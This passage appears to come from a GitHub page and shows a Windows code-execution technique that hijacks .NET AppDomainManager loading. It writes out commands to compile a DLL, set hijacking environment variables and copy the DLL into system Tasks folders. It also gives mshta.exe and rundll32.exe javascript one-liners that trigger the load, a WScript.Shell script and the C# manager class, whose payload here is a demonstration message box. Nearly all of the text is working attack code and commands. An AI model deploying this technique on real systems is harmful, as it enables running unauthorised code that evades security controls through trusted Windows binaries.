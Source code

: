 ```
		// Or you can Override the Assembly Resolver, etc...
        return;
    }
}

/*
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:tasks.dll tasks.cs
set APPDOMAIN_MANAGER_ASM=tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
set APPDOMAIN_MANAGER_TYPE=MyAppDomainManager
set COMPLUS_Version=v4.0.30319
copy tasks.dll C:\Windows\System32\Tasks\tasks.dll
copy tasks.dll C:\Windows\SysWow64\Tasks\tasks.dll


*/

```

Trigger the Payload with a simple one-liner
```

mshta.exe javascript:a=new%20ActiveXObject("System.Object");close();
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";a=new%20ActiveXObject("System.Object");close();

```



tasks.js

```
// Controls the search path for unmanged dlls
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
new ActiveXObject('WScript.Shell').Environment('Process')('TMP') = 'c:\\Windows\\System32\\Tasks';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_ASM') = 'tasks, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null';
new ActiveXObject('WScript.Shell').Environment('Process')('APPDOMAIN_MANAGER_TYPE') = 'MyAppDomainManager';


var o = new ActiveXObject("System.Object"); // Trigger AppDomainManager Load

```

In addition to leveraging the AppDomainMangers to load our assemblies, we can leverage Registration-Free COM to load and create objects.

Putting this together, we can see a complete .NET Assembly that demonstrates both capabilities.

tasks.cs or fxstmp etc...
```
using System;
using System.EnterpriseServices;
using System.Runtime.InteropServices;

using System.IO;
using System.Reflection;
using System.Runtime.Hosting;


public sealed class MyAppDomainManager : AppDomainManager
{
  
    public override void InitializeNewDomain(AppDomainSetup appDomainInfo)
    {
		System.Windows.Forms.MessageBox.Show("AppDomain - KaBoom!");
```